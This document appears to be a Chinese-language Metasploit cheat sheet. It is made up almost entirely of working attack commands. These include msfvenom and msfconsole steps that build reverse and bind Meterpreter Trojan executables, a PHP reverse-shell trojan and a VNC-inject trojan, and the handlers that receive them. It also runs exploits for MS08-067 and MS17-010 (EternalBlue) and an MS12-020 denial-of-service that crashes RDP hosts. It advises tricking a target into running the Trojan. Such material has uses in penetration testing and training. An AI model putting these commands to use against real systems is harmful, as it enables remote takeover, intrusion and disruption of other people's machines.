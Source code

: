 # Metasploit

| 编撰人 | 日期       | 版本 |
| ------ | ---------- | ---- |
| Khazix | 2018-01-21 | 初始 |

## Payload

- 正向连接

``` msf
use windows/meterpreter/bind_tcp
set rhost 192.168.137.130
set rport 444
generate -t exe -f Trojan.exe
ls
```

生成 Trojan.exe 放给对方主机诱导点击运行

- 反向连接

可以绕过防火墙，缺点是容易暴露自己ip，需要对方和自己网络能通

``` msf
use windows/meterpreter/reverse_tcp
set lhost 192.168.137.130
set lport 444
generate -t exe -f Trojan.exe
ls
```

- 后门利用

正向连接

``` msf
use exploit/multi/handler
set rhost 192.168.137.130
set rport 444
run
```

反弹监听

``` msf
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.137.130
set LPORT 444
run
```

## msfvenom

msfvenom 和 msfconsole里的 generate 是一样的，不过参数有变化

- 生成php木马

``` sh
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.137.130 lport=444 -f raw -o a.php
```

- 生成vnc木马

图形界面的木马

``` sh
msfvenom -p windows/vncinject/reverse_tcp lhost=192.168.137.128 lport=444 -f exe -o vnc.exe
```

监听反弹

``` msf
use exploit/multi/handler
set payload windows/vncinject/reverse_tcp
set lport 444
```

如果希望鼠标操作对方窗口

``` msf
set viewOnly  FALSE
```

- 生成metapreter木马

``` msf
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.137.130
set lport 444
run
```




## 辅助命令

- 使用 postgresql 缓存加速搜索

``` sh
service postgresql start
msfdb reinit
```

``` msf
db_rebuild_cache
```

- 查看exploit 和 payload

``` msf
show exploit
show payload
```

## MS08-067

Samba 相对路径溢出攻击

- 信息收集

结合nmap扫描漏洞

``` msf
db_nmap -sS -p445 192.168.137.128
services
vulns
```

- 执行攻击

``` msf
search ms08-067
use exploit/windows/smb/ms08_067_netapi
info
set target 34
set payload  windows/meterpreter/reverse_tcp
set lhost 192.168.137.128
set lport 444
```

## FTP匿名登陆

search选项

- app       :  Modules that are client or server attacks
- author    :  Modules written by this author
- bid       :  Modules with a matching Bugtraq ID
- cve       :  Modules with a matching CVE ID
- edb       :  Modules with a matching Exploit-DB ID
- name      :  Modules with a matching descriptive name
- platform  :  Modules affecting this platform
- ref       :  Modules with a matching ref
- type      :  Modules of a specific type (exploit, auxiliary, or post)

``` msf
search cve-2017
use auxiliary/scanner/ftp/anonymous
info
set rhost 192.168.137.128
run
```

## MS17-010

著名的勒索病毒：永恒之蓝

- 探测漏洞

``` msf
search ms17-010
use auxiliary/scanner/smb/smb_ms17_010
info
show missing
run
```

不过这里msf自带的对中国的电脑并不是很好使，用github上的ruby脚本

``` sh
git clone https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit.git
cp Eternalblue-Doublepulsar-Metasploit/eternalblue_doublepulsar.rb 
show targets
set target 0
```


## MS12-020

远程桌面拒绝服务漏洞，效果是开启远程桌面的主机变成蓝屏，不造成实质影响

- 扫描探测

``` msf
search ms12-020
use auxiliary/scanner/rdp/ms12_020_check
show missing
set rhost 192.168.137.130
```

- 执行攻击

``` msf
use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
set RHOST 192.168.137.130
run
```

## 相关链接

- https://www.sec-wiki.com/
- https://github.com/SecWiki/windows-kernel-exploits
- https://github.com/SecWiki/linux-kernel-exploits




